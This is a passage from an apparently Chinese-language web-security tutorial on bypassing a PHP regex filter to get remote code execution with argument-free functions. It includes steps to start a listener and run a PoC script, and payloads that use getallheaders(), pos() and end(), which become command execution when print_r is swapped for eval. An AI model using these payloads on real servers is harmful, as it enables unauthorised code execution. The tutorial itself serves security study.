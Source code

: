 步骤三：开启http.server监听80端口

```
#python -m http.server 80
```

步骤四：执行脚本

```
#python poc4.py
```

### 无参数命令执行请求头绕过

![image-20240507194352410](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405071943478.png)

```
 preg_replace('/[^\W]+\((?R)?\)/', $_GET['exp'])
只要在exp里匹配到[^\W]+\((?R)?\) 则替换为空

[^\W]+\((?R)?\)
正则表达式[^\W]匹配字母、数字、下划线（如果在方括号的前面写上一个^,则代表要求匹配出了尖号后面列出的以外的字符）
[^\W]+\(?\)匹配到‘a()’形式的字符串，但是（）不能出现任何参数
(?R)代表递归，即a(b(c()))都能匹配到
```



**HTTP请求标头**

**getallheaders()**

获取所有请求标头(跟抓包内容是反着的)

```
?code=print_r(getallheaders());
```

![image-20240507200954233](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405072009305.png)

pos()把第一项内容的值显示出来

或end()把最后一项内容的值显示出来

```
?code=print_r(pos(getallheaders())); pos拿到的的getallheaders显示的第一个
?code=print_r(end(getallheaders())); end拿到的的getallheaders显示的最后一个
```

把print_r改为eval就能执行命令了



**apache_request_headers()**

功能与getallheaders()相似，适用于apache服务器

------

### 无参数全局变量RCE
